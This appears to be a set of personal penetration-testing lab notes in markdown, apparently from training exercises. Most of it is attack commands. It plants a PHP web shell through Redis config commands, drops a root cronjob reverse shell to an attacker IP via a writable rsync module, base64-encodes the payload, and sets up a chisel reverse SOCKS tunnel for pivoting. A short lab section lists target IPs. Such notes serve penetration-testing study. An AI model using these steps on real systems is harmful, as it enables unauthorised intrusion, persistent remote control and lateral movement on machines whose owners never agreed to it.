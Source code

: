 ```bash
telnet or nc localhost <port>
	flushall
	set AnyText "<? system($_REQUEST['cmd']); ?>"
	config set dbfilename shell.php
	config set dir /var/www/html/

	Then we can open in the browser ip/shell.php?cmd=<command> 
		# problably what we want is a reverse shell
		# so we cam grab in pentest monkey
```


Do a CRONJOB in target:
```bash
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/<kali ip>/<port> 0>&1'" > runme
```

send with rsync:
```bash
rsync -a runme rsync://backup:873/src/etc/cron.d/runme
```

We can send commands base64 encoded, if the shell of the target machine is not accepting out request;
```bash
bash -c 'bash -i >& /dev/tcp/<kali ip>/<port> 0>&1' | base64
```

get the output:
```bash
echo "* * * * * root bash -c 'output in base64 | base64 -d" > runme
```

## REVERSE SOCKS

In Kali:
```bash
chisel server -p 8000 -reverse -v
```

In Target:
```bash
chisel client <kali ip>:8000 R:8001:127.0.0.1:1337
chisel server -p 1337 --socks5
```
> Will redirect everything from our port 8001 to port 1337 of the target

In Kali again:
```bash
chisel client 127.0.0.1:8001 socks
```


# LAB 1

## MY IP 
```bash
172.16.64.10

* 172.16.64.101
* 172.16.64.140
172.16.64.182
172.16.64.199
```

